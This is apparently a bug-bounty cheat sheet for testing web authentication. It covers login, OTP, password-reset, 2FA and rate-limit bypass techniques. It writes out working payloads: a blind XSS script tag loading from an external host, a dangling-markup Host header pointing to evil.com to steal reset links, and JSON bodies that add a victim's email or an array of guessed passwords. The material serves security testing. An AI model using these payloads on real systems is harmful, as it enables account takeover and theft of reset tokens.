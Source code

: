 # Authentication Testing

## Login Page:
  - If you found admin login page. Try this tips. 
  - First login as wrong credentials the intercept request to burp. 
  - Change email to your bxss payload. If you lucky you will get bxss. 
  - Ex: "><script src=https://xyz.xss.ht></script>"@subdomain.burpcollaborator.net 
  - If you get responses from collaborator it possible get fire bxss. 

## Email confirmation bypass:

  - Try response manupulate to cofirm email
  - while confirm email try this: intecept request to burp and change your mail to another person mail if you cloud get success. 
  
## OTP Relate Testing:

  - If you can manupulate response code to 200 and 302.
  - If you brute force login OTP
    - If WAF try Ip rote extension
    - Read some article and reports about rate limit bypass
  - While you confirming OTP try to change you email to victim email: if you cloud login as another user.
  - If target reseting password via OTP confirmation than you can add another emil with your mail: while request for reseting password:
    ```json
    {
     "email": [
       "victim@email.com",
       "you@email.com"
      ]
    }
    # If you got OTP in your mail try reset password: then possible victim account takeover 
    ```

## Password Reset functionality:
  - Try to add Host header in reset password request.
  - [report](https://hackerone.com/reports/698416) 
  - While reset password see if we can reset without knowing current password. By response manipulate. 
  - While reseting password intercept request to burp and see if you cloud add ```<a href>``` tag and see in email if there anything changes. 

## Authentication:
	
  - Bypass Rate Limit with X-Forwarded-For: to pwn authentication
  - Host header injeciton in forgot password page
	- Test Remember me functionality
  - Test password reset and/or recovery
  - 2FA Bypass
    - Access the content directly (site.com/profile)
    - Login using Oauth gmail or FB to bypass 2FA
    - Reset Password and login inoto the account to bypass 2FA 
    - Use old toke or change the response
  - Goto the reset password page and add two emails while sending the reset password link
		[You can recive two password reset link]
  - Web Cache deception [site.com/profile/min.js]
  - PHP protection can be bypassed using [] such as password=1234 ----> password[]= (CSRF token too)
  - While resetting password change the host header to your server (VPS) = secret link to your VPS
  - Bypass rate limit protection: You can use IP-Rotate burp extension or you can change system IP per request.
	
  - Password reset poisoning via dangling markup
	```Host: victim.com:'<a href="//evil.com/?  ```

  - Add X-Forwarded-For: 127.0.0.1 or 1-1000 to bypass the rate limit protection.

  - Login into the valid account and then into valid one, repeat this process to fool the sever to bypass the rate limit protection (observe that your IP is blocked        if your submit 3 incorrect logins in a row. However, you can reset the counter by logging in to your own account before the limit is reached)

  - replace the single string value of the password with an array of string containing all of the candidate passwords, for Example:
	
```json
	"username": "test",
	"password": [
		"1234",
		"password",
		"qwerty"
		....
	]
```

  - If you enter the wrong code twice, you will be logged out again bypass it using macros (You need to use burp's session handlling features to log back in
    automatically before sending each request.)
	
